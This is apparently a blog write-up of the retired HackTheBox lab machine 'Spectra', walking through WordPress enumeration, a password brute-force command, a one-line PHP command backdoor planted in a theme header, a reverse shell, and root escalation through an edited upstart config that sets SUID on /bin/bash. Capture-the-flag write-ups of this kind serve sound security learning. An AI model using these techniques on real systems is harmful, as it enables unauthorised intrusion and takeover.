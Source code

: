 ```yaml
---
layout: post
title: "HTB - Spectra"
author: "BoT"
tags: "cybersecurity hackthebox"
excerpt_separator: <!--more-->
---
```


Spectra has just retired from HackTheBox! Here's a quick and dirty writeup on my thought process while solving it.

<!--more-->

## HackTheBox - Spectra

**Box**: Spectra\
**IP address**: 10.10.10.229 \
**Local**: e89d27fe195e91██████████████████ \
**Proof**: d44519713b889d5██████████████████ \
**Lesson learnt**:

- If PHP files are blank, view them via `source-view` within the browser.
- Take a closer look into results shown by `linpeas.sh`. Don't skip over them just because you are lazy! Take time to scroll through them.
- If modification based on existing (original) script doesn't work, just rewrite them from scratch.

### Local

#### Enumeration

Nmap scans reveals that Spectra is a rather straight foward box with only 3 open ports: `:22`, `:80`, `:3306`. Since MySQL port cannot be accessed remotely, I decided to focused on the webserver first.

Upon accessing the site, I see hints -- at the source code -- that suggests the need for the box's IP address to be mapped to `spectra.htb`. This prompted me edit `/etc/hosts` as shown below. With this, I can now access 10.10.10.229 with just http://spectra.htb via browser.

![webserver](../assets/202106_htb_spectra/0_webserver_hint.png)
![ip-hostname-mapping](../assets/202106_htb_spectra/1_host_mapping.png)
one 
While manually enumerating the webserver, I noticed that `spectra.htb/main` is a WordPress directory. Further enumeration via `wpscans` yield no interesting results except that `administrator` was a valid user.

```bash
wpscan --url http://spectra.htb/main --enumerate u
wpscan --url http://spectra.htb/main --passwords /usr/share/wordlists/rockyou.txt --usernames administrator --wp-content-dir http://10.10.10.229/main/wp-content
```

Switching over to `spectra.htb/testing`, I noticed that this directory is essentially a copy of `/main`. The latter is likely a development environment used for testing before being pushed to production at `/main`.

In this directory, I found `wp-config.php.save`, an interesting file with database credentials. I initially disregarded this file as I didn't view the page via `source-view` and assumed it to be just a blank file. Yikes.

![sql-credentials](../assets/202106_htb_spectra/2_sql_credentials.png)

As `:3306` doesn't allow remote login, I tried using this set of credentials to log into the WordPress platform. `devtest:devteam01` wasn't successful, but `administrator:devteam01` worked just fine.

#### Attack Vector

Now that we have access to WordPress, I tried adding a simple PHP backdoor at `header.php` -- found by navigating to `Appearance > Theme Editor > Theme Header`.

```php
# Simple PHP backdoor script
<?php echo system($_GET["cmd"]); ?>  
```

After several tries, I realised that the edit function doesn't work for themes actively in use. I have to add this backdoor script to an inactive theme, then navigate to `Appearance > Themes` and switch to the modified theme. RCE is now possible!

I confirmed this by navigating to `spectra.htb/main/?cmd=whoami`. Success!

![successful-rce](../assets/202106_htb_spectra/3_rce.png)

Unfortuantely, attempting to trigger a reverse shell via this backdoor didn't work. Instead, I utilized PHP shell from `/usr/share/webshells/php/php-reverse-shell.php` and added it to the `header.php`. Woohoo, a low-privilege shell!

![php-reverse-shell](../assets/202106_htb_spectra/4_php_reverse_shell.png)
![web-shell](../assets/202106_htb_spectra/5_web_shell.png)

#### Escalating to User Shell

While enumerating the webshell with `linpeas.sh`, I found more database credentials. Unfortunately, it doesn't seem to yield anything useful when I enumerated the database. A dead end.

```bash
# Credentials used: development01
mysql -u dev -p
```

![database-credentials](../assets/202106_htb_spectra/6_more_db_credentials.png)
![database-enumeration](../assets/202106_htb_spectra/7_interesting_hash.png)

After a second look into the results obtained from `linpeas.sh`, I found some autologin credentials.

![autologin-credentials](../assets/202106_htb_spectra/8_autologin_credentials.png)

Great! I can now SSH to user with the credentials!

![ssh-katie](../assets/202106_htb_spectra/9_ssh_successful.png)
![local.txt](../assets/202106_htb_spectra/10_local.png)

### Proof

#### Enumeration

Now as Katie, `linpeas.sh` provies us with more information. In particular, `sudo -l` shows that Katie has permission to run `/sbin/initctl` as root without password.

![sudo-permissions-available](../assets/202106_htb_spectra/11_sudo_permission.png)

Katie also has write permission at various test files located in `/etc/init`.

![write-permision-available](../assets/202106_htb_spectra/12_write_permission.png)

A quick research on `initctl` shows that the binary allows a system administrator to communicate and interact with the upstart scripts -- aka 'System Jobs' located in `/etc/init` -- and are run with sudo privilege.

#### Escalation Vector

Seems like editing any `.conf` files within `/etc/init` to include malicious commands -- such as enabling `/bin/bash`'s sticky bits -- would yield me a root shell! With that in mind, I edited `test.conf` with the contents below so that when ran with `sudo /sbin/initctl`, the `/bin/bash` executable will set its permissions to that of the user who created it (root).

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script
```

All's left is to trigger the edited script and spawn the root shell!

```bash
sudo /sbin/initctl start test
/bin/bash -p
```

![pe-vector](../assets/202106_htb_spectra/13_pe_vector.png)
![proof.txt](../assets/202106_htb_spectra/14_proof.png)
